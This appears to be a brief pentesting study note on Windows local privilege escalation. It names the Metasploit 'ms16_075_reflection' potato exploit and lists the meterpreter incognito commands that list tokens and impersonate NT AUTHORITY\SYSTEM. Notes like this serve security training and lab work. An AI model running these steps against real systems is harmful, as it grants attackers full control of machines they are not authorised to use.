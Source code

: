 Use the MSF module: **windows/local/ms16_075_reflection**
This is a potato attack

When the exploit is finished in the meterpreter run the following commands:

Load incognito:
```msfconsole
load incognito
```

List available tokens:
```msfconsole
list_tokens -u
```

Impersonate user:
```msfconsole
impersonate_token "NT AUTHORITY\SYSTEM"
```

![[Pasted image 20240417091241.png]]